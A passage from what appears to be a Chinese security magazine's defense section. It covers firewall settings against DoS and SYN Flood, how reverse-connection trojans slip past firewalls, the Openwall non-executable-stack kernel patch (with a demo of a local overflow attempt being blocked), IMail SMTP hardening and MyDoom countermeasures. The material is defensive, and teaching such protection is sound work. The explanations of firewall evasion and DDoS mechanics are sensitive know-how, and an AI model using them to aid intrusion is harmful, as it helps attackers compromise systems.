

图 2 在 Internet 连接防火墙中管理服务程序

##### 2．对 SYN、IGMP Nuke 的防御

IGMP Nuke 属 DoS 类型攻击。DoS 全称是 Denial of Service，中文意思是拒绝服务攻击。这种攻击行动使网站服务器充斥大量要求回复的信息，消耗网络带宽或系统资源，导致网络或系统不堪负荷以至于瘫痪而停止提供正常的网络服务。

“拒绝服务”的攻击方式：用户传送众多要求确认的信息到服务器，使服务器里充斥着这种无用的信息。所有的信息都有需回复的虚假地址，当服务器试图回传时，却因无法找到用户而处于暂时等候状态，只有超过规定时间后才切断连接。但当服务器切断连接时，黑客再度传送新一批需要确认的信息，这个过程周而复始，最终导致服务器瘫痪在地。

目前，天网防火墙在防止 DoS 攻击方面做得比较好。不管哪款防火墙，要防止 DoS 攻击，至少需要进行如下的设置：

- 屏蔽端口，禁止外部对主机的非开放性服务的访问。
- 限制同时打开的 SYN 最大连接数。
- 限制特定 IP 地址的访问。
- 严格限制对外开放的服务器的向外访问。

##### 3．NAT 技术——隐藏身份，防止入侵

NAT 是“网络地址转换”的简称，这是利用防火墙对 IP 地址进行管理的一种方式，同时它还可以隐藏真实地址，阻止黑客入侵。防火墙将网卡标识为两种属性：一种是内部网卡，用于连接内部被保护的安全网络；另一种为外部网卡，用于连接外部公共网络。在内部网络通过内部网卡访问外部网络时将产生一个映射记录，系统将外出的源地址和源端口映射为一个伪装的地址和端口，让这个伪装的地址和端口通过外部网卡与外部网络连接，这样对外就隐藏了真实的内部网络地址。在外部网络通过外部网卡访问内部网络时，它并不知道内部网络的连接情况，而只是通过一个开放的 IP 地址和端口来请求访问。防火墙根据预先定义好的映射规则来判断这个访问是否安全。当符合规则时，防火墙认为访问是安全的，接受其访问请求，同时也可以将连接请求映射到不同的内部计算机中。当不符合规则时，防火墙认为该访问是不安全的，不能被接受，防火墙将屏蔽外部的连接请求。

##### 4．拒绝 Ping——屏蔽 ICMP 协议

最常用的 Ping 用的是 ICMP 协议，要禁止 Ping 其实是很容易的，仍以 Windows Server 2003 自带防火墙为例，默认设置完后 Ping 不通本机就是因为屏蔽了 ICMP 协议，如果想 Ping 通本机，只需进入防火墙界面的 ICMP 选项卡，将“允许传入响应请求”一项选中即可。

##### 5．明察秋毫——分析防火墙安全日志

一般情况下，防火墙都会按用户配置的要求把所有不合规则的数据包拦截并记录在安全日志里，分析安全日志就能对本机的网络连接情况了如指掌。但是有的朋友认为一有数据包被拦截就说明有人在攻击你，这是一个错误的认识，有些正常的数据包可能由于设置的安全级别过高而不符合安全规则，也会被防火墙拦截下来并且报警。如果你选择了监视 TCP 和 UDP 数据包，那你发送和接收的每个数据包也将被记录下来。



图 3 所示的是天网个人版防火墙的安全日志格式：每条记录从左到右分别是：发送／接收时间、来源 IP 地址、数据包类型、本机通讯端口、标志位。你可以通过查看日志很快找出攻击者的攻击时间和 IP 地址。安全日志可以导出以做备份。

#### 特殊的攻击面，特别的防范

通过以上的设置，我们已经可以屏蔽一般的攻击行为，但对于一些比较特殊的攻击来说，常用防范设置还是远远不够的。

##### 1．反弹端口型木马的攻击及防范

木马程序已经不是新鲜的东西了，当初“冰河”的出现，打破了远程控制的神话，木马程序从此层出不穷，直到后来出现了反弹端口型木马——网络神偷，它标志着木马程序发展到了一个新阶段，再次掀起远程控制的高潮。

常见的普通木马，是驻留在用户计算机里的一段服务程序，而攻击者控制的则是相应的客户端程序。服务程序通过特定的端口，打开用户计算机的连接资源并等待连接。一旦攻击者所掌握的客户端程序发出请求，木马便与它连接，窃取用户的信息。此类木马的最大弱点在于攻击者必须和用户主机建立连接，木马才能起作用。所以，在对外部连接审查严格的防火墙下，这样的木马很难工作起来。

而反弹式木马，工作原理恰恰相反。这类木马把连接改为由服务器端自动连接客户端。由于防火墙对进入的数据会进行仔细过滤，而对主机本身向外界发送的数据有所疏忽（即使用端口扫描软件检查自己的端口，发现的也是类似 TCP UserIP:1026 ControllerIP:80 ESTABLISHED 之类的浏览网页假象），所以即使安装了防火墙，反弹型木马也可以连接，并且这种连接形式决定了它还可以连接局域网中的主机。反弹式木马使用的是系统信任的端口，系统会认为木马是普通应用程序，而不对其连接进行检查。防火墙在处理内部发出的连接时，也就信任了反弹木马。目前最常见的反弹式木马有：“网络神偷”、“灰鸽子”等，这些木马程序通常是通过域名进行连接的（当然也可以把 IP 地址发送到指定的邮箱中）。这类木马一般都不带服务器端，是在使用的时候通过客户端生成。

面对反弹木马我们应该如何拦截呢？木马的精明之处在于运行时没有窗体，“偷光”了用户资料而用户却毫无察觉。反弹木马就更是如此，连局域网内部的机器都能监控，但是这一类木马有一个共通点：运行一个应用程序主动与外界交流，并且需要访问网络！因此，拦住每个需要访问网络的应用程序就一目了然了。防范反弹木马可以使用“天网个人防火墙”、“金山网镖个人防火墙”这两款防火墙，它们都采用应用程序访问网络规则，当用户计算机内部的应用程序访问网络的时候，必须经过防火墙的审核。合法的应用程序被审核通过，而非法的应用程序将会被防火墙个人版的“内墙”所拦截。

以“金山网镖个人防火墙”为例，金山网镖能对应用程序数据包进行底层分析拦截，它可以控制应用程序发送和接收数据包的类型、通信端口，并且决定拦截还是放行。在启动金山网镖后，启动的任何应用程序只要有通信数据包发送和接收存在，都会先被金山网镖截获分析。具体情况可以点击“程序规则”按钮查看，哪些允许、哪些不允许放行的应用均出现在“应用程序访问网络权限设置”窗口里。

当一个需访问网络的应用程序首次运行时，会弹出询问窗口，且会被自动加入“应用程序访问网络权限设置”的列表中，列表显示所有已启动应用程序的详细信息，包括开始运行时间以及所在路径。在该应用程序旁边还有“允许”、“禁止”、“询问”3 个选项，分别表示允许访问网络、禁止访问网络以及询问是否允许访问网络。一旦发现可疑的程序，选“禁止”即可。图 4 所示的是本机内所有需要访问网络的应用程序开放情况：



图4 用金山网镖个人防火墙管理应用程序

## 2. 最猛烈的 DDoS 攻击——SYN Flood

DDoS 攻击称为分布式拒绝服务（Distributed Denial Of Service）攻击。2000 年 2 月，Yahoo、亚马逊、CNN 等大型网站均遭到 SYN Flood 攻击，它是目前最流行的 DoS 和 DDoS 攻击手段。

DDoS 攻击实际上是一种“借刀杀人”的行为，DDoS 并不像入侵一台主机那么简单。需要经过收集目标情况——占领傀儡机——发起攻击三大步骤，没有经过“精心策划”是很难实现一次 DDoS 攻击的。一旦被 DDoS 攻击后，其后果通常是：被攻击主机上有大量等待的 TCP 连接；网络中充斥着大量源地址为假的无用的数据包；制造高流量无用数据，造成网络拥塞，使受害主机无法正常和外界通信；利用受害主机提供的服务或传输协议上的缺陷，反复高速地发出特定的服务请求，使受害服务器处于繁忙状态之中，无法及时处理所有正常请求，严重时会造成系统死机。

防止 DDoS 攻击可以从防火墙与路由器这两个网络设备上考虑，因为这两个设备是内网与外界的接口设备，路由器不在本文谈论的范围内，这里只粗略讲一下防火墙上的设置：

- 1. 禁止对主机的非开放服务的访问，减少被攻击的可能性。
- 2. 限制同时打开的 SYN 最大连接数。
- 3. 设置防火墙的 SYN 请求超时参数，让它远小于服务器的超时期限：防火墙负责转发客户端发往服务器的 SYN 包、服务器发往客户端的 SYN/ACK 包，以及客户端发往服务器的 ACK 包。这样，如果客户端在防火墙计时器到期时还没发送 ACK 包，防火墙则往服务器发送 RST 包，以使服务器从队列中删去该半连接。由于防火墙的超时参数远小于服务器的超时期限，因此这样能有效防止 SYN Flood 攻击。
- 4. 限制特定 IP 地址的访问。
- 5. 启用防火墙的防 DDoS 的属性。
- 6. 严格限制对外开放的服务器的向外访问（防止服务器成为傀儡机）。

如果熟悉防火墙系统就不难完成以上设置，另外采用为防范 DDoS 攻击而开发的专业防火墙方案也很重要，如 IpFilter iMUD 防火墙（简称 IFD 防火墙）便是这样的一个产品。

#### 给防火墙使用者的建议

攻击手法层出不穷，令人防不胜防。如果你正在使用防火墙软件，那么应该注意些什么问题呢？笔者归纳了一下，大致有以下几点：

##### 1．正确选用合适的防火墙

防火墙种类繁多，不同的用户要“按己所需”地选择合适的防火墙架设方案。个人 PC 只要选择某些防火墙产品的个人版就可以了，如“天网防火墙个人版”、“金山网镖”等，所花费的资金也不多。企业则不一样，应选择能维护整个内网安全的企业级防火墙系统，采用软硬件产品相结合的策略，这需要投入大量资金。此外企业还需要聘请专业的人员来维护它，不可马虎了事。总的来说，建立合理的防护系统，配置有效的防火墙，应遵循 4 个阶段：风险分析——需求分析——确立安全政策——选择准确的防护手段，并使之与安全政策保持一致。上述四个阶段是一环扣一环的，缺一不可。然而多数防火墙的设立没有或很少进行充分的风险分析和需求分析，只是根据不很完备的安全政策选择了一种似乎能“满足”需要的防火墙。这样，一旦防火墙防不了“火”，就会大乱阵脚。

##### 2．合理配置防火墙

合理的配置相当重要！上面说过，选择防火墙要做到“按己所需”，配置防火墙则是将“按己所需”落到了实处。例如：有些企业内部人员众多，则应要求防火墙既防外又防内，将遭到来自内部攻击的可能性降到最低；而有的企业内部人员多外出，接触电脑的没几个人，为了追求方便就可以将主要力量放在设计“防外”上。不同的企业和个人，其要求的安全规则也不一样，这就要求我们通过合理配置来实现。

##### 3．攻击防火墙

这似乎有点可笑，防火墙用来保护计算机资源，为何还要攻击它，这不是自取灭亡吗？实际上，这里说的攻击只是站在入侵者的角度测试防火墙的“防火”能力，只有这样你才能做到知己知彼，百战百胜。

##### 4．动态跟踪维护防火墙

防火墙安装和投入使用后，并非万事大吉。要想充分发挥它的安全防护作用，必须对它进行跟踪和维护，要与商家保持密切的联系，时刻注视商家的动态。因为商家一旦发现其产品存在安全漏洞，就会尽快发布产品补丁，此时应尽快对防火墙进行更新。

> **结束语**
>
> 防火墙也不是万能的墙，千万不能有一切依赖防火墙的想法，否则你会“输”得很惨！网络永远没有绝对安全的一天，防火墙总是跟在攻击者的后面，也许防范方法刚研制出来，又有新的攻击在向你挑战了。所以，防火墙只是你的安全助手，不是全部。

脚本小子：对于更改操作系统的设置和激活操作系统本身提供的安全开关来提高安全性的方法已经有过相当多的讨论，事实上，在有新的漏洞产生时这些方法显得很脆弱。虽然我们不能指望程序员从根源上解决安全问题，但是我们应该了解底层的安全才是核心。本文以 Linux 为例，从内核的角度来讨论安全防御的“偏补剂”类——安全免疫。

### OW 补丁，让 Linux 内核更安全

文 / ay4z3ro

普通的安全设置固然可以提高服务器的安全性，这也是很多系统管理员熟知的，但是在很多情况下这对攻击者来说并不管用，比如系统中一个守护进程存在漏洞，你做了各种设置提高了安全性并且过滤了端口，虽然这样正向的非法连接无法得逞，但是攻击者很容易就用一个反向连接绕过了防火墙，然后在你的系统上寻欢作乐。事实上，高级的安全设置应该具有一定攻击免疫能力，比如用 stackguard 编译的 immunix 系统。而本文从相关的例子引出这种概念，你会发现在某些场合“攻击免疫”比普通意义上的安全防护更有效。当然这并不是全部，安全是一个整体的概念。

学过缓冲区溢出的人应该都知道 Solar Designer's kernel patch，这个补丁是 Openwall project 的一部分，它的特性如下：

- Ring3 层堆栈不可执行。
- 限制 /tmp 目录下的符号连接。
- 限制 /tmp 目录下的 FIFO。
- 限制 /proc 目录权限，非 root 用户只能看到自己进程的子目录。
- 对 0、1、2 三个文件描述符的特殊处理（只针对 kernel 2.0–2.2）。
- 加强 execve 系统调用对用户进程数目的限制，在 fork 该进程而改变进程属主时仍然有效。
- 撤销不再使用的共享内存区域，这个选项可能会使很多商业数据库停止工作！只有在你已经限制系统某些资源（比如：RLIMIT_AS、RLIMIT_NPROC）的情况下这个选项才会产生实际的效果，大多数系统并无必要使用这个特性。
- 特权 IP 别名，只有 root 才可以在特权别名范围内绑定套接字（只对 kernel 2.0）。

该补丁最主要的特性是：用户区堆栈不可执行（Non-executable User Stack）。其实实现并不是在用户区的堆栈页面加上执行标志，因为在 Linux 内核中代码段和数据段（堆栈段是特殊的数据段，从用户空间的顶端向下生长，Linux 内核并不区分数据段和堆栈段）的线性地址是重叠的，无法区分代码段和数据段。在 Intel x86（32 位非 PAE 模式）平台上用户区数据段和代码段的虚拟地址范围是 0～3GB，作者通过把代码段的虚拟地址减小为 3GB－8M 来区分数据段和代码段：

```c
#ifdef CONFIG_HARDEN_STACK
    .quad 0x00cbfa000000ffff
    /* 0x23 user 3GB-8MB code at 0 */
#else
    .quad 0x00cffa000000ffff
    /* 0x23 user 4GB code at 0x00000000 */
#endif
```

然后企图返回用户区最高 8M 空间（堆栈区间）去执行指令的行为都会被拦截，这通常是溢出攻击返回执行 shellcode 的特征！关于不可执行堆栈还有另外一个开关：CONFIG_HARDEN_STACK_SMART，这个开关是为了允许 GCC 生成跳板代码，这种情况通常要求堆栈段是可执行的（有极少数的程序需要在堆栈段执行代码），如果打开这个开关，内核会捕捉跳板代码调用产生的中断并模拟该环境继续执行。当然，同时这也会使安全性降低。一般来说我们可以不使用这个选项。

#### 安装

该补丁可以从 http://www.openwall.com/linux/ 下载，我们选择最新的 linux-2.4.24-owl.tar.gz，然后从 kernel.org 下载 linux-2.4.24.tar.gz 内核源代码包，先把内核源代码解压到：`/usr/src/linux-2.4.24`，然后解压补丁包，linux-2.4.24-owl.diff 就是我们要的补丁文件。然后开始打补丁：

```bash
[root@ay4z3ro /]# cd /usr/src/linux-2.4.24
[root@ay4z3ro linux-2.4.24]# patch -p1 < ../linux-2.4.24-owl/linux-2.4.24-owl.diff
```

接下来按部就班地编译内核：

```bash
make mrproper; make menuconfig; make dep; make bzImage; make modules; make modules_install
```

然后编辑 lilo：

```bash
# cp /usr/src/linux/arch/i386/boot/bzImage /boot/vmlinuz-2.4.24-owl
# vim /etc/lilo.conf
加入以下行：
image=/boot/vmlinuz-2.4.24-owl
label="linux-2.4.24-owl"
root=/dev/hda6
read-only
# reboot  ; // 重启
```

现在可以用我们的新内核启动了，来测试一下吧。:)

```text
Mandrake Linux release 9.2 (FiveStar) for i586
Kernel 2.4.24-owl on an i686 / tty1
ay4z3ro login: root
Password:
Last login: Fri Feb 13 23:25:55 on tty1
[root@ay4z3ro root]# cd /test/
```

```bash
[root@ay4z3ro test]# ls
core.1201  core.1665  core.8425  core.8433  ex*   exp1*  vu*
core.1358  core.8422  core.8426  core.8454  ex1*  exp.c  vu.c
core.1369  core.8423  core.8427  core.8455  ex.c  fmt*   vu*
core.1624  core.8424  core.8432  core.942   exp*  fmt.c  vu.c
```

其中 vu 是存在漏洞的程序，ex 是与之对应的溢出攻击程序。

```bash
[root@ay4z3ro test]# ./ex
ret is 0xbffffffcb
Security: more returns onto stack, logging disabled for a minute.
Segmentation fault (core dumped)
[root@ay4z3ro test]# tail -1 /var/log/messages
Feb 13 23:26:33 ay4z3ro kernel: Security: more returns onto stack, logging disabled for a minute
[root@ay4z3ro test]# tail -1 /var/log/kernel/alert
Feb 13 23:26:33 ay4z3ro kernel: Security: return onto stack from 0x08048389 to 0xbfffffd3 running as UID 0, EUID 0, process vu:1369
```

我们看到攻击被成功地阻止了，并且发出了警告！这个补丁的确给大多数栈溢出、一部分的格式串和把 shellcode 安置在堆栈段的 malloc/free 堆腐败带来了麻烦，但是 heap/bss 溢出可以完全不受这个补丁的影响而攻击成功。另外，迄今为止所有的缓冲区溢出防护技术都不是绝对有效的，对于那些真正有实力的攻击者，这个补丁只是增加了攻击的难度。即使如此，它还是能够挡住大多数热衷于入侵的人。该补丁的安全特性加上系统管理的常规安全措施会有比较好的效果（可以参考我发在去年第 10 期上的 Linux 系统深度安全加固一文），推荐使用。

> **编后语**
>
> 有兴趣的读者可以参阅 Warning3 的《绕过 Linux 不可执行堆栈保护的方法浅析》以及 Phrack 58 期上的 Return-into-lib(c) 技术，中文版是由 alert7 翻译整理的。

脚本小子：作为流行的 E-Mail 服务系统，IMail 有着自身的安全设置，如何对其进行有效的设置，提高邮件以及系统本身的安全性，是一个重要的安全问题。前段时间黑防推出了 IMail 的溢出漏洞，也提出了很多防护的办法，但是本文是从新的角度去考虑防护，所以很值得一看！



### 增强 IMail 系统 SMTP 的安全性

文／张建忠

IMail 是一个流行的电子邮件服务器，通过 Web 接口为客户提供邮件服务。并且 IMail 与大多数常见的电子邮件协议兼容，例如：SMTP、POP3、IMAP4、LDAP 等。但它存在缓冲区溢出漏洞，问题在于 IMail SMTP 守护进程在处理输入数据时没有进行正确的边界检查。远程攻击者利用这点能使 IMail SMTP 服务器发生缓冲区溢出，从而执行攻击者提供的代码。

我们可以自己手动设置自己的邮件服务器和管理 SMTP 协议的安全性，从而达到对漏洞防护的目的！

- 1. 设置邮件中转选项，防止成为大量垃圾邮件的中转站。
- 2. 设置什么是本地用户。
- 3. 验证收到的邮件。核查是否来自一个有效的用户，或者拒绝将它列入邮件清单。
- 4. 设置 IP 地址，或者列一个 IP 地址清单给服务器，说明哪些可以接受，哪些拒绝收。

#### 如何对 SMTP 进行设置

- 1. 双击控制面板里的 IMail 图标，在出现的 IMail 服务对话框里选择 SMTP 安全选项，这时出现 SMTP 安全属性对话框。
- 2. 在这个安全属性对话框中，对 SMTP 服务无论哪一个选项都设置成安全。
- 3. 点击应用并保存设置，关闭对话框。

注意：假如你用 SMTP 服务改变 IP 地址，你必须先关闭 SMTP 服务并重启，系统才对设置生效。

#### 设置邮件中转选项

用邮件中转选项可以防止大量未经授权的邮件的投递，例如大家都知道的垃圾邮件。它可能将你的邮件系统变成垃圾邮件的中继器。邮件中转选项设置成只允许本地用户或者使用本地主机的用户通过自己的服务器中转，在这之前要设定什么是本地。

#### 1、中转对任何人

允许 SMTP 服务接受投递给其它主机的邮件，还可以再投递给其它适当的主机。这是邮件系统的缺省设置。

#### 2、中转选项

假如邮件系统认为邮件是来自本地指定的 IP 地址时，就仅允许接受去往其它主机的邮件。假如你用这个选项，你要指定任何你接受邮件的主机，也要建立一个登录在 `\winnt\system32\drivers\etc\hosts` 文件里。假如你的 DNS 设置成接受邮件对第一位域（mailer1.ipswitch.com）；或者也接受其它的域（mailer2.acme.com）。MX 将如下这样记录：

```text
MX
10 mailer1.ipswitch.com
20 mailer2.acme.com
```

#### 3、中转邮件对开域（mailer2.acme.com）

在邮件系统上，你需要指定它的 IP 地址在中转选项（Relay mail for）里，登录主机名、IP 地址在主机文件里。

指定有效的 IP 地址，点地址（addresses）按钮。

- 1、点添加（Add）按钮，增加/接受本地用户。
- 2、在 IP 地址栏里，添加对于邮件系统是本地的 IP 地址。添加一个计算机组，选择计算机组（Group of Computers）选项；在 IP 地址和子网掩码里，添加一些考虑过的安全的本地 IP 地址。非本地系统企图传递邮件，就可能出现如下消息：

```text
550 unknown local host %s, not a gateway.
```

#### 设置使用 SMTP 服务

可以设置指定的 IP 地址使用 SMTP 或者拒绝使用。对没有权限使用系统的主机，邮件系统将拒绝建立连接。这非常有用，它可以知道一个未经授权邮件发送人的 IP 地址。

- 1、拒绝一个指定的组或者计算机
  - 1) 点击控制权限（Control access）并选择 Granted Access 选项。
  - 2) 在 IP 地址栏里，输入不能访问 SMTP 服务的 IP 地址。拒绝一个组计算机，可选择 Group of Computers 选项。例如，一个 C 类地址为 218.21.50.0，子网掩码为 255.255.255.0。这样就可以阻止 254 个系统。
  - 3) 点击“确定”，重启服务，改变的设置才可以生效。
- 2、有权限使用的组或者计算机
  - 1) 点击 Control access 选项，在出现的对话框里选择 Denied Access 选项。
  - 2) 点添加（Add），在设置之前，也要关闭服务，在重启服务以后，设置才可以生效。

> ### 总结
>
> 邮件系统的安全是非常重要的。垃圾邮件的传播者就是利用一些公司的邮件服务器来发送他们的垃圾邮件，但钱是由中转者付的。控制邮件服务器不被人利用，可节省金钱和网络资源，阻止不受欢迎的邮件，继而防止系统变成垃圾邮件的“中转站”。希望文章对大家有所帮助。

### tips：防范 MyDoom 病毒

MyDoom 病毒是一种依赖于 Windows 操作系统的蠕虫病毒，它通过电子邮件传播。目前，绝大多数提供 mail 服务的网站都是通过过滤邮件标题进行此种病毒的防范。同时，由于它本身能在服务器上生成后门，所以又让我们的网络管理员非常头疼，可以通过下面的方法防范这个病毒。

首先，病毒在受感染的机器上打开 TCP 3127-3198 的端口作为监听端口，所以我们的防火墙就需对 TCP 端口 3127-3198 的访问进行阻断或者封禁。其次，使用某些防火墙 IDS 的自动封禁功能，对每秒钟 7 次以上的 SYN 连接进行自动封禁，从而防止后门程序对 www.sco.com 的 DDoS 攻击。

第三，可以在邮件服务器上通过对邮件的标题、内容、附件名以及附件扩展名进行过滤，有效地防止带有该种病毒的邮件的传播。

防火墙对于病毒只能进行阻断传播，减少其对于网络的危害。真正杀死病毒还需依靠相应的杀毒软件。但防火墙起到的是防患病毒于未然的作用。所以，很好地利用防火墙进行网络病毒的防护，能最大限度地减少网络蠕虫病毒给用户以及全社会带来的巨大经济损失。此次万无一失通过高覆盖率客户回访，得知防火墙再次有效阻碍了 MyDoom 病毒的攻击，证明了有效利用防火墙的特性进行病毒防范的效果大大高于单独利用防病毒产品的效果。希望所有的用户能提高警惕性，做到早发现早防治，在安全厂商和用户的共同努力下，能创造一个日益安全的网络环境，为各个行业的发展提供有力的保证。

### tips：防范 MyDoom.B 病毒

MyDoom.B 病毒与“MyDoom”不同，它把攻击的矛头直接指向微软，将对微软网站发动拒绝服务式攻击。由于带毒邮件的大量传播会消耗网络资源，并对系统设置后门，对普通用户的正常使用也造成很大安全风险。

由于 MyDoom.B 在受感染的机器上打开 TCP 监听端口：80、1080、3128、8080、10080；这其中 80 与 8080 都为著名的 Web 服务端口，所以在防火墙规则设置上控制粒度要很细，不能只做简单的 TCP 80 端口阻断规则。假如这台受感染的机器明确不提供 Web 服务，乃方御防火墙可以阻断所有对这台机器 80 或 8080 端口的访问。如果它对外提供 Web 服务，则我们可以通过邮件过滤以及 IDS 自动封禁等方法来进行病毒的防范。

### BBSXP论坛：查漏补缺

文 / 起夜家

脚本小子：在攻册中，我们分析了 BBSXP 论坛中存在的几个漏洞和几个可能存在隐患的地方，为了方便那些使用该论坛软件的朋友能够及时打好补丁，这里我们继续攻防结合的传统给大家带来防御的方法，本文谈到的补丁方法可以帮助大家抵抗可能到来的攻击。

作为被调用的东西，自己保证自己的安全比要求别人来保证自己的安全要合理得多，所以要补上这些漏洞，老老实实地从 setup.asp 开始修改比较好。

